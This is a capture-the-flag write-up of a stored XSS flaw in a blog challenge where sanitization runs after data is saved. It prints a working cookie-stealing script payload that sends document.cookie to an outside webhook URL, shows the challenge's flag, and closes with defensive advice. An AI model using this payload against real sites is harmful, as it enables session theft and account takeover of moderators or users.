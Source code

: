 ### **Exploiting an XSS Vulnerability in a Blog with Moderator Visit**

![Screenshot](images/blog_chall.png)

In this challenge, we have a blog with a user registration and login system.  
We know that the **admin (or the moderator bot) will visit our profile** when we register and when we post an article.

A **source code leak** is also available.

![Screenshot](images/blog_leak.png)

---

### **Step 1: Analyzing the Source Code**

Looking at the leaked source code, we notice an **attempt at sanitization** of the fields, but it is performed **after the .save()**, meaning that **even if an error is displayed, the data is already stored in the database**.

The moderator will **visit our profile** after we create an account and post an article.

---

### **Step 2: Testing a Basic XSS Injection**

I first tried a simple XSS payload:

`<script> alert(1) </script>`

But an error was displayed:

![Screenshot](images/blog_error.png)

---

### **Step 3: Identifying the Vulnerable Field**

I tested different payloads by creating multiple accounts to determine **which field is exploitable**.

After obtaining a registration token, I accessed my profile via `/user?token=$token`.

![Screenshot](images/blog_alert1.png)

![Screenshot](images/blog_alert.png)

Result: An `alert(2)` is displayed, **confirming that the name field is vulnerable**.

---

### **Step 4: Exploiting the Vulnerability to Steal Cookies**

Now that we know the `name` field is exploitable, we will inject an XSS payload to steal the moderator's cookie.

Payload used:

`<script> window.location.href = "https://webhook.site/66a3fb27-4a91-4cae-8c0e-a5f9dd8385e1?cookie=" + document.cookie </script>`

We register an account with this **payload in the name field**, and wait for the moderator to visit our profile.

The payload is executed, redirecting to our **webhook**, which captures the moderator's cookie.

![Screenshot](images/blog_webhook.png)

---

### **Step 5: Creating an Article to Finalize the Attack**

To maximize our chances of execution, we also create a blog post with the same payload.

![Screenshot](images/blog_article.png)

After a while, we check our **webhook endpoint**, and **the cookie containing the flag is captured!**

🔗 **Webhook URL with the retrieved flag:**  
https://webhook.site/66a3fb27-4a91-4cae-8c0e-a5f9dd8385e1?cookie=FLAG=HACKDAY{0rd3R_M4tteRs_In_Ur_C0d3!!!!}

---

### **Conclusion**

This challenge demonstrates the importance of **proper operation ordering** in a web application's code.  
Here, **sanitizing inputs after storing them** allowed us to exploit a **stored XSS vulnerability**, leading to **complete compromise** via the moderator's session theft.

➡ **Protection against this type of attack:**

- Always **sanitize and validate inputs before storing them**.
- Enable `HttpOnly` on cookies to prevent theft via JavaScript.
- Use **Content Security Policy (CSP)** to limit the execution of malicious scripts.
- Implement **strict filters** on user input fields.